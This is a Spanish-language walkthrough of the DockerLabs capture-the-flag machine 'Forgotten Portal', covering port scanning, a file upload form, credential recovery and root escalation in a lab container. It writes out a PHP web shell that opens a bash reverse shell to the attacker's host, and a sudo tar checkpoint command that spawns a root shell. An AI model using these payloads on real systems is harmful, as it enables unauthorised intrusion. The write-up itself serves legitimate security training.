 Máquina "Forgotten Portal" de [DockerLabs](https://dockerlabs.es)

Autor: [Cyberland](https://cyberlandsec.com/)

Dificultad: Medio

![Dockerlabs](img/dock.png)

# Reconocimiento

Vamos a empezar con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Wed Dec  4 09:53:02 2024 as: nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-12-04 09:53:03 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1d:4a:16:27:ad:b8:0b:aa:28:64:b0:10:3b:be:79:1c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPqFV+NfpZGuIDsCCv9gPbHdmIQCjA9+nAnq29cKRh9lI+rnshZyqxyh9JssAFr8o+FNZejMlW/A0WBpMx09uJ8=
|   256 0b:0f:11:d6:5a:e9:f5:25:c8:17:0d:71:c1:29:c9:53 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOq/ECOx7kvdWUnIws1W68bb7yWOLN1ciw36P4DqfMa4
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: CyberLand Labs - Innovaci\xC3\xB3n en Ciberseguridad
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  4 09:53:11 2024 -- 1 IP address (1 host up) scanned in 8.80 seconds
```

Tenemos 2 puertos abiertos:

`80: Apache httpd 2.4.58`

`22: OpenSSH 9.6p1`

y al parecer estamos frente a una máquina ubuntu.

SI vamos al puerto 80 desde el navegador, veremos una web sin nada interesante. Pero si a esta le revisamos el código fuente, vermos la siguiente nota:

![nota](img/nota.png)

Por lo que si vamos a `m4ch1n3_upload.html`, veremos un formulario para subir archivos.

# Intrusión

Ahora nos creamos un script en php en nuestra máquina el cual contenga lo siguiente:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>
```

una vez creado, lo subimos.

Ahora solo nos queda escuchar con netcat por el puerto 443 (`sudo nc -nlvp 443`) y entrar a el archivo que subimos desde la web, una vez entremos nos llegará la shell.

# Escalada De Privilegios

### www-data

Si vamos a /var/www/html, veremos un archivo llamado `access_log`, el cual en una parte dice lo siguiente:

```css
[2023-11-21 19:36:22] INFO: Clave codificada generada: YWxpY2U6czNjcjN0cEBzc3cwcmReNDg3
```

y si pasamos `YWxpY2U6czNjcjN0cEBzc3cwcmReNDg3` a texto (es base64) nos dice lo siguiente:

```css
alice:s3cr3tp@ssw0rd^487
```

Por lo que ya tenemos credenciales para alice.

### Alice

Si vamos a la home de alice, veremos un reporte en una carpeta llamada "incidents", al leerlo nos dice de manera resumida, que en la home de todos los usuarios, hay un id_rsa, el cual es de bob y tambien nos da la contraseña del archivo:

```css
**Passphrase del Usuario `bob`:** `cyb3r_s3curity`
```

por lo que vamos a `~/.ssh/` y copiamos el archivo id_rsa a nuestra maquina local, luego le damos permisos de ejecución (chmod 600 id_rsa) y nos conectamos como bob:

```css
ssh -i id_rsa bob@172.17.0.2
```

### Bob

Siendo bob, podemos ejecutar como root el binario tar, por lo que luego de buscar, veo que podemos escalar a root ejecutando lo siguiente:

```css
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

### Root

![root](img/root.png)

Gracias por leer :)